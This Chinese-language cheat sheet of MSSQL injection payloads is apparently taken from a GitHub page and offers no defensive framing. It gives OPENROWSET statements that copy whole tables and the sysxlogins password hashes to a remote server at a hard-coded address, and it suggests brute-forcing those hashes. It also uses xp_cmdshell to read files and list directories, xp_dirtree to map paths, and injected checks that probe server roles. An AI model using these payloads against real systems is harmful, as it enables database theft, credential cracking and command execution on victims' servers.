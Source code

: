 复制数据库： 
```
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table1) select * from database..table1 
insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table2) select * from database..table2
```

复制哈西表（HASH）登录密码的hash存储于sysxlogins中。方法如下： 
```
insert into OPENROWSET(SQLOLEDB, uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _sysxlogins) select * from database.dbo.sysxlogins 
```

得到hash之后，就可以进行暴力破解。

遍历目录的方法： 先创建一个临时表：temp 
```
;create table temp(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3nvarchar(255));-- 
;insert temp exec master.dbo.xp_availablemedia;-- 获得当前所有驱动器 
;insert into temp(id) exec master.dbo.xp_subdirs c:\;-- 获得子目录列表 
;insert into temp(id,num1) exec master.dbo.xp_dirtree c:\;-- 获得所有子目录
```

的目录树结构,并寸入temp表中 
```
;insert into temp(id) exec master.dbo.xp_cmdshell type c:\web\index.asp;-
```

- 查看某个文件的内容 
```
;insert into temp(id) exec master.dbo.xp_cmdshell dir c:\;-- 
;insert into temp(id) exec master.dbo.xp_cmdshell dir c:\ *.asp /s/a;-- 
;insert into temp(id) exec master.dbo.xp_cmdshell cscript C:\Inetpub\AdminScripts\adsutil.vbs enum w3svc 
;insert into temp(id,num1) exec master.dbo.xp_dirtree c:\;-- （xp_dirtree适用权限PUBLIC） 
```

写入表： 
```
语句1：and 1=(SELECT IS_SRVROLEMEMBER(sysadmin));-- 
语句2：and 1=(SELECT IS_SRVROLEMEMBER(serveradmin));-- 
语句3：and 1=(SELECT IS_SRVROLEMEMBER(setupadmin));-- 
语句4：and 1=(SELECT IS_SRVROLEMEMBER(securityadmin));-- 
语句5：and 1=(SELECT IS_SRVROLEMEMBER(securityadmin));-- 
语句6：and 1=(SELECT IS_SRVROLEMEMBER(diskadmin));-- 
语句7：and 1=(SELECT IS_SRVROLEMEMBER(bulkadmin));-- 
语句8：and 1=(SELECT IS_SRVROLEMEMBER(bulkadmin));-- 
语句9：and 1=(SELECT IS_MEMBER(db_owner));--
```

把路径写到表中去： 
```
;create table dirs(paths varchar(100), id int)-- 
;insert dirs exec master.dbo.xp_dirtree c:\-- 
and 0<>(select top 1 paths from dirs)-- 
and 0<>(select top 1 paths from dirs where paths not in(@Inetpub))-- 
;create table dirs1(paths varchar(100), id int)-- 
;insert dirs exec master.dbo.xp_dirtree e:\web-- 
and 0<>(select top 1 paths from dirs1)--
```
